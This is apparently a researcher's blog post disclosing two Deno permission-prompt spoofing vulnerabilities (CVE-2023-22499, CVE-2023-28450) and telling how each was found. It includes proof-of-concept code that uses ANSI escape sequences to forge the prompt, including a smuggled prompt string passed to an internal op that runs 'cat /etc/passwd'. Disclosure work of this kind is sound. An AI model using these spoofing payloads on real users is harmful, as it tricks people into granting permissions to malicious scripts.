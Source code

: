 ```yaml
---
title: twice-around ansi injection in deno
description: permission prompts are wonderful, but the modern terminal is powerful too.
emojis: 🦕🚫📟
date: 2023-03-25
slug: deno-ansi-injection
---
```


Deno is a wonderful project, and I'm a big fan. I've been following the project for a few years now, and it is one of my favourite scripting runtimes, even more than python.
It's a great way to run TypeScript (and, unfortunately, JavaScript) code on the server side, and its package model + permission system proves extremely powerful.

However, the project for me served as a good start on my first few CVEs.

## Deno's permission system

Deno, by default, is secure. Deno doesn't make guarantees on runtime resources (CPU, RAM), but it does make guarantees on external access or permenant storage.

For example, if a malicious script you ran (maybe `deno run https://example.com/malicious-script.ts`) tried to access the file system, it would be denied. This is because Deno's default permissions don't allow for:
- network access
- file system access
- environment access
- arbitrary command execution
- ffi access
- and even fingerprinting (system apis and disables high resolution timers)

However, sometimes you *want* a script to have these permissions, so deno treats you with a prompt. For example, running `deno run https://example.com/grab-a-cat-pic.ts`, which grabs pictures of cats from an `example.com` API, would prompt you with:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

This is a wonderful feature, and I'm glad it exists. It makes working with arbitrary scripts much safer, and it's a great way to ensure that you're not running malicious code.
Unfortunately, it's not perfect.

## by accident

I was playing around with Deno's web workers. Web workers allow you to run code in a separate thread,
and they're a great way to do things like offload CPU intensive tasks to a separate thread, or to run code in a separate thread without blocking the main thread.

At the time, I was trying to fetch some data from my main file asynchronously, and wanted to see how well it worked with web workers.

```ts
// worker.ts
console.log("hello from worker");
```

```ts
// main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/cat-pics");
```

```sh
$ deno run --allow-net main.ts
```

This worked great! I was able to fetch data from the internet, and I was able to run code in a separate thread.

However, when running it again, I forgot to include `--allow-net`, leading to this interesting prompt:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
hello from worker
```

At first, I didn't think much of it. I simply assumed the web worker was just running after, and the network request took a bit to kick in, and that it was just printing out the message.

However, from my previous work with direct ANSI codes (as I wanted to know how terminal colors were displayed), I knew that you could use ANSI codes to move the cursor around, and I knew that you could use ANSI codes to clear the screen.

So, I decided to try it out.

```ts
// worker.ts
console.clear();
console.log(`
┌ ⚠️  Deno requests net access to "deno.land".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
`);
```

```ts
// main.ts
const worker = new Worker(new URL("worker.ts", import.meta.url).href, {
  type: "module",
});

const request = await fetch("https://example.com/api/malicious-fetch-fingerprint");
```

```sh
deno run main.ts
```

As predicted, the prompt was cleared, and the message was printed out. This simple trick allowed me to spoof the prompt, and it was a great way to get a user to accidentally grant permissions to a malicious script.

This CVE is now [GHSA-mc52-jpm2-cqh6](https://github.com/denoland/deno/security/advisories/GHSA-mc52-jpm2-cqh6), or [CVE-2023-22499](https://security.snyk.io/vuln/SNYK-RUST-DENO-3233636) (snyk).

## on purpose

Around this time, I recently learned that deno had internal methods (accessible by `Deno[Deno.internal]`).

Then, looking at the permission prompt (from my previous CVE), I noticed that it can take a number of parameters on the rust side, and that it occasionally exposes these parameters to the user.

Here was the template for the permission prompt:

```
┌ ⚠️  Deno requests ${type} access to ${scope}.
├ Requested by `${api}` API
├ Run again with --allow-${type} to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

`type` and `scope` are both tightly controlled, and are only ever set to a few values. However, `api` is not. It's set to whatever the API is that is requesting the permission.

For ease of developer convenience, the Deno maintainers made this configurable, and allowed you to set the `api` parameter to whatever you wanted, on the TypeScript side.

This was hidden in `op` functionality, specifically in `op_spawn_child` and `op_kill`, where `op_spawn_child` works on `--unstable` and `op_kill` is configured to give access to all run permissions.

```ts
const boldANSI = "\u001b[1m" // bold
const unboldANSI = "\u001b[22m" // unbold

const prompt = `┌ ⚠️  ${boldANSI}Deno requests run access to "echo"${unboldANSI}
├ Requested by \`Deno.Command().output()`

const moveANSIUp = "\u001b[1A" // moves to the start of the line
const clearANSI = "\u001b[2K" // clears the line
const moveANSIStart = "\u001b[1000D" // moves to the start of the line

Deno[Deno.internal].core.ops.op_spawn_child({
    cmd: "cat",
    args: ["/etc/passwd"],
    clearEnv: false,
    env: [],
    stdin: "null",
    stdout: "inherit",
    stderr: "piped"
}, moveANSIUp + clearANSI + moveANSIStart + prompt)
```

Once again, this allowed me to spoof the prompt, providing another way to get a user to accidentally grant permissions to a malicious script.

This is now [GHSA-vq67-rp93-65qf](https://github.com/denoland/deno/security/advisories/GHSA-vq67-rp93-65qf), or [CVE-2023-28450](https://nvd.nist.gov/vuln/detail/CVE-2023-28450)

## tips

dig into stuff, if it looks interesting, and try it out. You never know what you might find.
